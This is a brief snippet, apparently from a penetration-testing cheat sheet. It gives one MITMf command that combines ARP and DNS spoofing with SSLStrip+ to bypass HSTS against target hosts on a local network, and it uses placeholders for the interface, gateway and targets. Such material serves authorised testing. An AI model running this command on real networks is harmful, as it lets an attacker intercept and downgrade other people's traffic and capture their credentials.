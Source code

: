 # Establish MitM with HSTS Bypass
```bash
# MITMf uses SSLStrip+ to bypass HSTS
python mitmf.py -i <Interface Name> --spoof --arp --dns --hsts --gateway <Gateway IP Address> --targets <Target IP Addresses>
```